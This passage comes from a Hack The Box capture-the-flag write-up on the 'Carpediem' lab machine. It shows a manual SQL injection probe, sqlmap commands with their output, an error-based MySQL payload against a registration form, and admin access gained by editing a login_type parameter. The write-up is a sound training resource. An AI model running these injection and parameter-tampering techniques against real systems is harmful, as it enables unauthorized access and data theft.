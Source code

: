 We're able to break the SQL syntax by entering username `'ORDER BY 1--`:
![](/assets/images/htb-writeup-carpediem/carpediem05.png)

Save the request to a file and fire up `sqlmap` to do the heavy lifting for you.
```bash
➜  carpediem sqlmap -r register.req -p username
[... snip ...]
[12:35:21] [INFO] POST parameter 'username' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable
sqlmap identified the following injection point(s) with a total of 996 HTTP(s) requests:
---
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: firstname=asdf&lastname=asdf&contact=asdf&gender=Male&address=asdf&username=injectpls'||(SELECT 0x62626476 WHERE 4087=4087 AND GTID_SUBSET(CONCAT(0x7178627671,(SELECT (ELT(5583=5583,1))),0x71707a7a71),5583))||'&password=asdf
---
[12:35:35] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 7.4.25, Nginx 1.18.0
back-end DBMS: MySQL >= 5.6

➜  carpediem sqlmap -r register.req -p username --dbs
available databases [1]:
[*] portal
```

Sadly it stops there, we're unable to fetch tables and/or columns. I tried a lot of different common combinations such as table ``users`` and columns ``username,password`` but nothing. It looks like this might be a rabbit hole. Moving on to the next form, we can edit our user under `http://portal.carpediem.htb/?p=edit_account`. 

Doing a edit, we can see a new interesting parameter in Burp - `login_type=2`. Changing this to **1** and we're now able to access `/admin`